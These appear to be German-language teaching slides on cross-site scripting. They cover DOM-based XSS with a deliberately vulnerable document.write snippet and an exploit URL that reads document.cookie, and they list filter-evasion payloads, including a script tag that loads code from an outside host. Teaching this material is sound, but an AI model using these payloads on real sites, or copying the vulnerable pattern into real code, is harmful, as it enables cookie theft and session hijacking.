 * DOM-based
* Durch Modifikation/Injecten des Schadcodes im DOM
* Server ist nicht direkt involviert

## Beispiel

http://www.some.site/page.html?default=French

``` html
<select><script>
document.write("<OPTION value=1>"+document.location.href.substring(document.location.href.indexOf("default=")+8)+"</OPTION>");
document.write("<OPTION value=2>English</OPTION>");
</script></select>
```

``` url
http://www.some.site/page.html?default=<script>alert(document.cookie)</script>
```

## DOM-based: warum interessant?

- Documentation am Server?
- http://snikt.net/app/libs/jquery/docs/search.html

## uXSS

Angriffe gegen den Browser..

## mXSS

Browser modifizieren übertragenen Code und "erzeugen" auf diese Weise XSS-verseuchte Webseiten

* z.B. bei Verwendung von X-XSS-Protection

## XSS kann an vielen Stellen auftreten

```html
<script>alert(1);</script>
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>

<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

<IMG SRC= onmouseover="alert('xxs')">
<IMG SRC="jav    ascript:alert('XSS');">
<BGSOUND SRC="javascript:alert('XSS');">
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
```

## Payloads
